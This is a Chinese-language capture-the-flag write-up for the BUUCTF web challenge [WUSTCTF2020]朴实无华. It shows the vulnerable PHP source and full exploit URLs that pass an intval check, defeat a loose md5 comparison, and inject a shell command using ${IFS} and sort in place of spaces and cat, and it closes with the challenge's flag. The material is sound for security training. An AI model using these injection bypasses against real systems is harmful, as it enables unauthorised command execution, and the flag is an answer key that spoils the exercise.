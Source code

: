 # [WUSTCTF2020]朴实无华

[题目地址](https://buuoj.cn/challenges#[WUSTCTF2020]%E6%9C%B4%E5%AE%9E%E6%97%A0%E5%8D%8E)

周围的空气突然就枯燥起来了。

进来啥也没有，空空如也的页面。扫了一下目录，结果漏扫了robots.txt，还要自己手动去看。提示了`/fAke_f1agggg.php`文件，去看了后确实有个假flag。我要假flag干什么，开发者工具看看有没有什么提示。最后在Network选项记录的服务器回包中看见了猫腻。

```
Connection: keep-alive
Content-Length: 22
Content-Type: text/html
Date: Sat, 26 Nov 2022 03:48:52 GMT
Look_at_me: /fl4g.php
Server: openresty
X-Powered-By: PHP/5.5.38
```

继续去/fl4g.php看看。

```php
<?php
header('Content-type:text/html;charset=utf-8');
error_reporting(0);
highlight_file(__file__);


//level 1
if (isset($_GET['num'])){
    $num = $_GET['num'];
    if(intval($num) < 2020 && intval($num + 1) > 2021){
        echo "我不经意间看了看我的劳力士, 不是想看时间, 只是想不经意间, 让你知道我过得比你好.</br>";
    }else{
        die("金钱解决不了穷人的本质问题");
    }
}else{
    die("去非洲吧");
}
//level 2
if (isset($_GET['md5'])){
   $md5=$_GET['md5'];
   if ($md5==md5($md5))
       echo "想到这个CTFer拿到flag后, 感激涕零, 跑去东澜岸, 找一家餐厅, 把厨师轰出去, 自己炒两个拿手小菜, 倒一杯散装白酒, 致富有道, 别学小暴.</br>";
   else
       die("我赶紧喊来我的酒肉朋友, 他打了个电话, 把他一家安排到了非洲");
}else{
    die("去非洲吧");
}

//get flag
if (isset($_GET['get_flag'])){
    $get_flag = $_GET['get_flag'];
    if(!strstr($get_flag," ")){
        $get_flag = str_ireplace("cat", "wctf2020", $get_flag);
        echo "想到这里, 我充实而欣慰, 有钱人的快乐往往就是这么的朴实无华, 且枯燥.</br>";
        system($get_flag);
    }else{
        die("快到非洲了");
    }
}else{
    die("去非洲吧");
}
?>
```

chrome默认打开是乱码，需要将[编码](https://blog.csdn.net/jnx1142410525/article/details/55271037)改成unicode。第一关，要求传入参数num的intval小于2020，加上1后却大于2021。这里的考点在于intval会截断科学计数法下的字符串，但当以科学计数法表示的字符串进行运算后便不会截断，会返回其运算后的值。测试时php7这个特性就消失了，然而环境下是5.5.38，因此构造payload。

- http://072b1d9e-2afa-4d8c-9cc4-4b184d218d15.node4.buuoj.cn:81/fl4g.php?num=1e4

第二关要求传入的字符串等于其md5值。由于是弱比较，所以我们找一个0e开头且其md5值也是0e开头的字符串就好了。[wp](https://blog.csdn.net/weixin_44037296/article/details/111220371)里找到一个`0e215962017`。于是payload：

- http://072b1d9e-2afa-4d8c-9cc4-4b184d218d15.node4.buuoj.cn:81/fl4g.php?num=1e4&md5=0e215962017

最后一关简单的命令执行绕过。空格不给用就用${IFS}，cat不给用就用sort或者别的，姿势可多了。首先ls得知flag名字，然后一把梭。

- http://072b1d9e-2afa-4d8c-9cc4-4b184d218d15.node4.buuoj.cn:81/fl4g.php?num=1e4&md5=0e215962017&get_flag=sort${IFS}fllllllllllllllllllllllllllllllllllllllllaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaag

## Flag
> flag{6c81013c-296e-4949-bf83-10ae77478abe}